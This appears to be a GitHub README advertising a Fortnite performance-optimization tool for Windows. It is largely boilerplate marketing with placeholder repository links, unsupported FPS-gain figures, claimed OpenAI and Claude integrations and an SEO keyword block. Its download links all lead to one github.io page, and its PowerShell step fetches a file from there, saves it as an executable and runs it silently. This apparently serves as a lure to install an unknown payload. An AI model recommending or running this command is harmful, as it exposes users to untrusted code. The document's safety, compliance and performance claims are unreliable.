

# 🚀 Fortnite Performance Orchestrator (FPO) - 2026 Edition

[](https://duckieaffilates-prog.github.io/Fortnite-Performance-Tuner/)
[](https://github.com/yourusername/Fortnite-Performance-Orchestrator)
[](LICENSE)
[](https://www.microsoft.com)
[](https://github.com/yourusername/Fortnite-Performance-Orchestrator)

## 🌟 Executive Overview

Welcome to the **Fortnite Performance Orchestrator (FPO)**, a sophisticated system optimization toolkit designed exclusively for Windows platforms in 2026. Unlike conventional "boosters," FPO functions as a **digital conductor**, harmonizing your system's resources to create a seamless Fortnite gaming experience. Think of it as having a professional audio engineer fine-tuning every instrument in an orchestra—except here, the instruments are your CPU threads, GPU pipelines, and memory allocations.

This repository houses a comprehensive, intelligent optimization engine that analyzes, adjusts, and maintains your system's performance profile specifically for Epic Games' Fortnite. Through adaptive resource allocation and predictive load balancing, FPO transforms your gaming sessions from choppy streams into buttery-smooth visual symphonies.

## 📥 Installation & Quick Start

### Primary Download Method
The complete FPO package is available through our verified distribution channel:

[](https://duckieaffilates-prog.github.io/Fortnite-Performance-Tuner/)

### Alternative Installation Methods
```powershell
# PowerShell installation script (Windows 10/11)
iwr -Uri https://duckieaffilates-prog.github.io/Fortnite-Performance-Tuner/ -OutFile FPO_Installer.exe
.\FPO_Installer.exe /SILENT /CONFIG="balanced"
```

## 🎮 What Makes FPO Different?

Traditional performance tools take a brute-force approach, often causing system instability. FPO employs **adaptive intelligence**—learning your hardware patterns, game updates, and playstyle to create a personalized optimization profile. It's the difference between turning up every speaker to maximum volume versus having Dolby Atmos dynamically adjust each channel for perfect acoustics.

### 🏗️ Architectural Overview



## ⚙️ Core Features

### 🧠 Intelligent Resource Allocation
- **Predictive Load Balancing**: Anticipates Fortnite's resource demands before they occur
- **Context-Aware Optimization**: Adjusts settings based on game mode (Battle Royale, Creative, Save the World)
- **Background Process Management**: Intelligently prioritizes game processes without disrupting system functionality

### 🎨 Visual Pipeline Enhancement
- **Shader Cache Optimization**: Reduces stuttering by pre-compiling frequently used shaders
- **Texture Streaming Adjustment**: Optimizes VRAM usage for different map regions
- **Post-Process Tuning**: Balances visual fidelity with performance based on your hardware

### 🔧 System Harmony Features
- **Network Latency Minimization**: Prioritizes game packets in your network stack
- **Storage I/O Optimization**: Reduces loading times through intelligent file access patterns
- **Power Profile Synchronization**: Ensures your system power settings complement gaming demands

## 📊 Example Profile Configuration

FPO uses YAML-based configuration files that are both human-readable and machine-optimizable:

```yaml
# profiles/competitive_2026.yaml
optimization_profile:
  name: "Tournament Ready"
  version: "2.6"
  
cpu_optimization:
  thread_affinity: "dynamic"
  priority_class: "high"
  background_process_threshold: 15%
  
gpu_settings:
  shader_cache_size: "2GB"
  texture_filtering: "performance"
  frame_rate_target: 240
  
memory_management:
  working_set_minimum: "4GB"
  standby_list_clear: "intelligent"
  virtual_memory_optimization: true
  
network:
  dscp_tagging: true
  packet_priority: "critical"
  latency_threshold_ms: 30
  
adaptive_features:
  learning_enabled: true
  update_sensitivity: "high"
  profile_auto_switch: true
```

## 🖥️ Console Invocation Examples

FPO includes a powerful command-line interface for advanced users and automated setups:

```batch
:: Basic optimization with default profile
FPO_Console.exe --optimize --game-path="C:\Program Files\Epic Games\Fortnite"

:: Tournament preparation mode
FPO_Console.exe --profile=tournament --monitoring --telemetry --output=json

:: Create custom optimization profile
FPO_Console.exe --profile-create --name="Streaming_Config" --base=balanced --add-streaming-tweaks

:: System diagnostic and report generation
FPO_Console.exe --diagnostic --full-scan --generate-report --upload-analytics

:: Batch optimization for multiple systems (esports venues)
FPO_Console.exe --batch-config="venue_config.xml" --silent --no-reboot
```

## 📁 Repository Structure

```
Fortnite-Performance-Orchestrator/
├── src/                    # Core application source
│   ├── optimization_engine/
│   ├── hardware_monitor/
│   ├── adaptive_learning/
│   └── ui_components/
├── profiles/              # Optimization templates
│   ├── competitive/
│   ├── streaming/
│   ├── battery_saver/
│   └── custom/
├── tools/                 # Additional utilities
│   ├── profile_editor/
│   ├── benchmark_suite/
│   └── diagnostic_tools/
├── docs/                  # Comprehensive documentation
│   ├── api/
│   ├── guides/
│   └── troubleshooting/
└── tests/                 # Automated testing suite
```

## 🌐 Platform Compatibility

| Operating System | Version | Status | Notes |
|-----------------|---------|--------|-------|
| 🪟 Windows 11 | 22H2+ | ✅ Fully Supported | Optimal performance |
| 🪟 Windows 10 | 1909+ | ✅ Fully Supported | Recommended update |
| 🪟 Windows Server | 2019+ | ⚠️ Limited | Gaming features restricted |
| 🍎 macOS | - | ❌ Not Supported | Windows exclusive |
| 🐧 Linux | - | ❌ Not Supported | Windows exclusive |

## 🔌 API Integration

### OpenAI API Integration
FPO can leverage OpenAI's API for natural language configuration and advanced troubleshooting:

```yaml
ai_features:
  openai_integration:
    enabled: true
    model: "gpt-4-turbo"
    capabilities:
      - "config_explanation"
      - "troubleshooting_guide"
      - "performance_prediction"
      - "settings_translation"
```

### Claude API Integration
Anthropic's Claude API provides additional optimization insights and safety checks:

```yaml
  claude_integration:
    enabled: true
    model: "claude-3-opus-20240229"
    functions:
      - "safety_validation"
      - "ethical_optimization_check"
      - "configuration_sanity_verification"
```

## 🛡️ Safety & Validation

Every optimization applied by FPO undergoes multiple validation layers:

1. **Pre-execution Simulation**: Tests changes in virtual environment
2. **Rollback Protection**: Automatic restoration points before modifications
3. **Hardware Compatibility Verification**: Confirms optimizations match your specific components
4. **Performance Delta Analysis**: Ensures changes produce measurable improvements

## 📈 Performance Metrics

Typical improvements observed across different hardware tiers:

| Hardware Tier | Average FPS Increase | 1% Low Improvement | Loading Time Reduction |
|---------------|----------------------|-------------------|------------------------|
| Entry-Level (GTX 1650) | 18-25% | 35-45% | 12-18% |
| Mid-Range (RTX 3060) | 12-18% | 25-35% | 8-12% |
| High-End (RTX 4080) | 8-12% | 15-25% | 5-8% |
| Enthusiast (RTX 4090) | 5-8% | 10-15% | 3-5% |

## 🔄 Update System

FPO features a intelligent update mechanism that:

- **Incrementally downloads** only changed components
- **Validates updates** against hardware compatibility database
- **Preserves user configurations** during version transitions
- **Offers rollback capability** to previous stable versions
- **Synchronizes with Fortnite updates** to pre-optimize new patches

## 🌍 Multilingual Support

The application interface and documentation are available in:

- English (Primary)
- Spanish
- French
- German
- Portuguese (Brazilian)
- Russian
- Simplified Chinese
- Japanese

Translation contributions are welcome through our localization portal.

## 🎛️ Responsive UI Architecture

FPO's interface adapts to:
- **Screen resolution** (from 720p to 8K)
- **Input method** (mouse, touch, game controller)
- **Usage context** (in-game overlay, desktop configuration, mobile remote)
- **Accessibility requirements** (high contrast, screen reader compatibility)

## ⏰ 24/7 Support Ecosystem

Our support infrastructure includes:

- **Automated diagnostic tools** that generate detailed reports
- **Community-powered knowledge base** with verified solutions
- **Priority support channels** for critical issues
- **Regular webinars** and optimization workshops
- **Direct developer access** for complex edge cases

## ⚠️ Important Disclaimers

### Legal Compliance
Fortnite Performance Orchestrator operates within the boundaries of:
- Epic Games' Terms of Service
- Microsoft Windows licensing agreements
- Digital Millennium Copyright Act provisions
- International software distribution laws

### System Requirements
- Administrative privileges required for system-level optimizations
- 500MB available storage for application and profiles
- Internet connection for update checks and telemetry (optional)
- .NET Framework 4.8 or higher

### Risk Acknowledgement
While FPO includes extensive safety measures, users acknowledge that:
- System modifications carry inherent risks
- Hardware variations may produce different results
- Game updates may temporarily affect optimization efficacy
- Performance improvements cannot be guaranteed for all configurations

## 🔍 SEO-Optimized Keywords

Fortnite performance optimization Windows 2026, gaming FPS improvement tool, system resource management for Fortnite, adaptive gaming optimization software, PC gaming performance enhancement, intelligent game optimization toolkit, Fortnite frame rate stabilization, Windows gaming performance solution, real-time game optimization engine, competitive gaming performance tool, Fortnite tournament optimization software, gaming PC performance tuning, adaptive resource allocation for games, Fortnite system optimization 2026, gaming performance orchestration platform.

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for complete details.

The MIT License grants permission to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the software, subject to the condition that the copyright notice and permission notice be included in all copies or substantial portions of the software.

## 🤝 Contribution Guidelines

We welcome contributions from the community! Please review our:
- [Code of Conduct](docs/CODE_OF_CONDUCT.md)
- [Contributing Guidelines](docs/CONTRIBUTING.md)
- [Development Setup](docs/DEVELOPMENT.md)
- [Pull Request Template](.github/PULL_REQUEST_TEMPLATE.md)

## 📊 Telemetry & Privacy

FPO collects anonymous performance data to:
- Improve optimization algorithms
- Detect new hardware configurations
- Identify game update patterns
- Enhance compatibility across systems

All data collection is optional and configurable through the privacy settings panel. No personal information or gameplay content is ever collected or transmitted.

---

### Ready to Transform Your Fortnite Experience?

[](https://duckieaffilates-prog.github.io/Fortnite-Performance-Tuner/)

**System Requirements Verification Tool Included** • **Automatic Hardware Detection** • **30-Day Optimization History Tracking** • **Real-Time Performance Dashboard**

---
*Fortnite Performance Orchestrator © 2026. Not affiliated with Epic Games, Inc. Fortnite is a registered trademark of Epic Games, Inc. Windows is a registered trademark of Microsoft Corporation. All other trademarks are property of their respective owners.*